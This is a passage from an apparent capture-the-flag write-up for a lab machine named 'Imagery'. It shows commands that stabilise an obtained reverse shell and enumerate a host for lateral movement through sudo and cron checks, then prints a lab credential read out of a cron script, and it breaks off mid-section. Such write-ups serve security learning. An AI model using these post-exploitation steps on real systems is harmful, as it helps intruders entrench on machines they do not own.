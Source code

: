 ## Reverse shell 
login into `web@Imagery:`
### Shell stabilization
```bash 
# remote terminal
python3 -c 'import pty; pty.spawn("/bin/bash")' #or python for v2 
script /dev/null
export TERM=xterm
# local Termial
stty raw -echo; fg
# remote terminal 
reset
export SHELL=/bin/bash
export TERM=xterm
stty rows 11 cols 111
```

---
# Lateral Movement to mark

## Local enumeration

```bash
ls -al /home # mark,web
sudo -l
crontab -l # python3 /home/web/web/bot/admin.py,  tar -zcf /var/backups/home.tgz /home/

```
![](<./attachments/Imagery-27.png>)
**view the cronjob**
```bash
less /home/web/web/bot/admin.py
```
![](<./attachments/Imagery-26.png>)
>`admin@imagery.htb:strongsandofbeach
## Lateral movement vector
>[!IMPORTANT]